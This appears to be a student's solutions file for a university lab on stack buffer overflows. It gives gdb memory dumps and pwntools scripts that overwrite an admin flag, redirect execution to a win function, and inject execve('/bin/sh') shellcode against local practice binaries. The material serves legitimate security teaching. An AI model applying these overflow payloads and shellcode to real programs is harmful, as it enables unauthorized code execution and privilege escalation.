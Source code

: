 # Laborator 2

## Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

## Solution to [Q3]:
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Solution to [Q4]:
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p64(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

```
[+] Starting local process './bin/ex2': pid 962
b'AAAAAAAA\xef\xbe\xad\xde'
[*] Switching to interactive mode
```

```
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
Access granted!
```

## Solution to [Q5]:
```python
from pwn import *
import os

context.binary = './bin/ex3'
pattern = cyclic(100)
p = process('./bin/ex3')
p.sendline(pattern)
p.wait()
core_path = f"/tmp/core.{os.path.basename(context.binary.path)}.{p.pid}.11"
core = Core(core_path)
crash_addr = core.fault_addr

offset = cyclic_find(crash_addr)
print("Offset: ", offset)
```
```
Offset:  56
```

```
$ gdb ./bin/ex3
pwndbg> p win
$1 = {int ()} 0x401156 <win>
```

```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```

## Solution to [Q6]:
```c
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

First argument is a `const char`.

## Solution to [Q7]:
We find the address of `/bin/sh` at runtime:
```python
jmp get_binsh       

start:
    pop rdi         
    xor rsi, rsi    
    xor rdx, rdx    
    mov rax, 59         # 59 is the linux system call for execve
    syscall

get_binsh:
    call start          # pushes the string onto the stack
    .string "/bin/sh"   
```

```python
#!/usr/bin/env python3

from pwn import *
import os

context.update(arch='amd64', os='linux')
context.binary = './bin/ex4'
target = process('./bin/ex4')

shellcode = asm('''
    jmp get_binsh
start:
    pop rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 59
    syscall
get_binsh:
    call start
    .string "/bin/sh"
''')

# find the offset using the script from [Q5]
padding = b'A' * (264 - len(shellcode))
payload = padding + shellcode

target.recvuntil(b'Buffer at ')
buffer_address = int(target.recvline().strip(), 16)

payload += p64(buffer_address + len(padding))

target.send(payload)
target.interactive()
```

## Solution to Extra Challenge #1:
```python
#!/usr/bin/env python3

from pwn import *

target = process('./bin/bonus')

payload = b'A' * 40 + p64(0x401156)  + p64(0x401173)    # 0x401156 = address of dothidden(); 0x401173 = address of win()

target.send(payload)
target.interactive()
```
